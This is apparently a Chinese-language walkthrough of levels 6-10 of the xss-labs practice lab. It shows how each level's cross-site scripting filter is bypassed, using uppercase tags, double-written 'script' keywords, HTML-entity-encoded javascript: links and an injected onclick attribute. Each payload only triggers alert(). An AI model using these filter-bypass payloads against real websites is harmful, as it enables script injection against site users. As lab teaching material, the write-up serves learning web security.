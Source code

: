 ## xss-labs level 6-10

### level6

输入第一关的代码进行测试，失败后查看源码：

```html
<input name=keyword  value="<scr_ipt>alert('level1')</script>">
```

使用onclick等事件也会被过滤，a标签的href也会过滤。

再尝试一下大小写绕过：

```html
"/><SCRIPT>alert("level6")</script>
```

成功



### level7

输入第一关的代码进行测试，失败后查看源码：

```html
<input name=keyword  value="<>alert('level1')</>">
```

发现 script 部分被过滤

尝试使用双写绕过

```html
"/> <scrscriptipt>alert(/level7/)</scrscriptipt>
```

成功



### level8

这一关，输入的内容会被当成href添加到下面的友情链接里

尝试注入：

```html
javascript:alert(/level8/)
```



查看源码发现 javascript 部分被过滤

```html
<a href="javascr_ipt:alert(/level8/)">友情链接</a>
```

尝试使用[HTML编码](https://www.qqxiuzi.cn/bianma/zifushiti.php)，将上面的内容编码

```html
javascript:alert(/level8/)
```

  ↓↓↓↓↓

```html
&#x6A;&#x61;&#x76;&#x61;&#x73;&#x63;&#x72;&#x69;&#x70;&#x74;&#x3A;&#x61;&#x6C;&#x65;&#x72;&#x74;&#x28;&#x2F;&#x6C;&#x65;&#x76;&#x65;&#x6C;&#x38;&#x2F;&#x29;
```

注入成功



### level9

```html
javascr&#x69;pt:alert(1)//http://
```



### level10

使用 `<script>alert('level1')</script>` 进行测试，查看源码

`<>` 部分被全部过滤





```html
?t_sort=" onclick=alert(1) type="text"
```

